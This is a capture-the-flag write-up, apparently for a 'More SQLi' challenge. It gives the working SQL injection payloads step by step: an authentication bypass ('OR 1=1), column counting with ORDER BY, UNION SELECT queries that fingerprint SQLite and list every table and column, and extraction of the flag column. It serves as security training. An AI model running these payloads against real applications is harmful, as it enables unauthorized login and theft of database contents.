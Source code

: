 # More SQLi

Solution of [prev](./SQLiLite.md) problem doesn't work here..

Log in using: \
Username: anything \
Password: `' OR 1=1 --`

On successful login, we get a page with input box, which is a parameter for an SQL query whose result is displayed as on the page.

Find the no. of columns being returned by submitting inputs:

```sql
algiers' ORDER BY 1 --
algiers' ORDER BY 2 --
algiers' ORDER BY 3 --
algiers' ORDER BY 4 --
```

No. of columns is **3**.
Find the sql engine being used by trying out version queries. Query for **SQLLite** is successful.

```sql
algiers' UNION SELECT sqlite_version(), NULL, NULL --
```

Print [all the tables and columns](https://stackoverflow.com/questions/604939/how-can-i-get-the-list-of-a-columns-in-a-table-for-a-sqlite-database):

```sql
algiers' UNION SELECT m.name as tbl, p.name as col, NULL FROM sqlite_master m left outer join pragma_table_info((m.name)) p on m.name <> p.name order by tbl, col --
```

Notice a _flag_ column, display it:

```sql
algiers' UNION SELECT flag,NULL,NULL FROM more_table --
```
